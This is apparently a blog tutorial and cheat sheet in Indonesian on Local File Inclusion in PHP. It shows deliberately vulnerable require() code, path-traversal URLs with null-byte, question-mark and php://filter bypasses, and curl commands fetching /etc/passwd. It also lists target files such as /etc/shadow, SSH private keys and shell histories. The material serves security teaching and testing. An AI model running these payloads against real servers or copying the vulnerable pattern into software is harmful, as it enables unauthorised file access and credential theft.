



Local File Inclusion berarti akses tidak sah ke file yang ada di sistem. Kerentanan ini memungkinkan penyerang mendapatkan akses ke file sensitif di server, dan itu mungkin juga menyebabkan mendapatkan shell.

## Cara Kerja Local File Inclusion

LFI berasal dari input pengguna yang tidak bersih. LFI sangat umum di situs web yang menjalankan php.  
  
Berikut adalah contoh kode-php yang rentan terhadap LFI. Seperti yang bisa dilihat, kita hanya memasukkan parameter-url ke fungsi-kebutuhan tanpa filter. Jadi pengguna bisa menambahkan path ke file apa pun.

```
$file = $_GET['page'];
require($file);
```

Dalam contoh ini pengguna bisa memasukkan karakter apapun dan mengambil file _C:/xampp/apache/conf/extra/httpd-vhosts.conf_.

`http://example.com/page=C:/xampp/apache/conf/extra/httpd-vhosts.conf`



### Bypass File Ber-Ekstensi PHP

Pada beberapa kasus, kita tidak bisa menampilkan beberapa file karena penulisan script pada servernya. Berikut ini contoh tampilannya:

```
$file = $_GET['page'];
require($file . ".php");
```

PHP ditambahkan ke nama file, ini berarti kita tidak akan dapat menemukan file yang kita cari. Semisal kita ingin melihat file .htaccess, tidak akan bisa karena file `/dir/dir/.htaccess.php` tidak ada.



Namun, jika kita menambahkan nullbyte ke akhir string-serangan, `.php` tidak akan terbaca. Jadi saya menambahkan `%00` ke akhir string serangan.

`http://example.com/page=../../../../../../etc/passwd%00`

Teknik ini biasanya disebut teknik nullbyte karena `%00` adalah nullbyte. Teknik ini hanya berfungsi dalam versi PHP di bawah `5.3`.

Cara lain untuk mengatasi masalah ini adalah dengan menambahkan tanda tanya pada string serangan. Dengan cara ini, barang-barang setelah ditafsirkan sebagai parameter dan karenanya dikecualikan. Berikut ini sebuah contoh:

`http://example.com/page=../../../../../../etc/passwd?`

### Bypass PHP-Execution

Jadi, jika kita menemukan LFI, kita dapat dengan mudah membaca file `.txt` tetapi tidak dengan `.php`. Itu karena file tersebut dieksekusi oleh server web, karena akhir file mereka mengatakan bahwa itu berisi kode PHP. Kita dapat mem-bypass dengan menggunakan filter-php bawaan.

`http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index`



Di sini saya menggunakan filter-php untuk mengonversikan isi dari sebuah file PHP menjadi base64. Sekarang kita hanya perlu men-decode-nya. Simpan teks base64 ke dalam file dan kemudian jalankan: `base64 -d namafile.php`

## Tricks & Cheatsheet

Ada juga beberapa trik dan hal lain yang membantu saya saat melakukan LFI.

### Linux

Jika kita membaca file langsung di browser, maka output file akan sulit dibaca. Cara mengatasinya adalah dengan men-download file tersebut dari terminal. Tetapi itu tidak akan berhasil jika ada login yang memblokirnya. Jadi solusinya adalah:

```
# Login dan menyimpan Cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```

Ini adalah tata letak default dari file-file penting.  
https://wiki.apache.org/httpd/DistrosDefaultLayout

```
# Sensitive Files
/etc/issue 
/etc/motd 
/etc/passwd 
/etc/group 
/etc/resolv.conf 
/etc/shadow
/home/[USERNAME]/.bash_history or .profile
~/.bash_history or .profile
$USER/.bash_history or .profile
/root/.bash_history or .profile
/etc/mtab  
/etc/inetd.conf  
/var/log/dmessage

# File yang berada di Web Server
.htaccess
config.php

# SSH
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts

# Logs
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log

# File dari user spesifik
.bash_history
.mysql_history
.my.cnf
```

"Di Linux, /proc menyertakan direktori untuk setiap proses yang berjalan, termasuk proses kernel, di direktori bernama / proc / PID, di mana PID adalah nomor proses. Setiap direktori berisi informasi tentang satu proses, termasuk: /proc/PID/cmdline, perintah yang awalnya memulai proses. "  

https://en.wikipedia.org/wiki/Procfs  
https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/

```
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

Baca juga: [Reverse & Spawning Shell](https://akbar.kustirama.id/reverse-spawning-shell/).

### Windows

```
#Fingerprinting
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini

# Logs
c:\Program Files\Apache Group\Apache\logs\access.log  
c:\Program Files\Apache Group\Apache\logs\error.log

# Session PHP
c:\WINDOWS\TEMP\  
c:\php\sessions\  
c:\php5\sessions\  
c:\php4\sessions\
```

File yang saya gunakan pada screenshot diatas bisa didapatkan di [github.com/abaykan/Labs](https://github.com/abaykan/Labs/blob/master/local-file-inclusion.php).

## Referensi

- https://github.com/abaykan/Labs/blob/master/local-file-inclusion.php (source-code dari yang ada di screenshot).
- https://highon.coffee/blog/lfi-cheat-sheet/
- http://securityidiots.com/Web-Pentest/LFI
- https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
- https://nets.ec/File\_Inclusion
- https://gist.github.com/sckalath/da1a232f362a700ab459
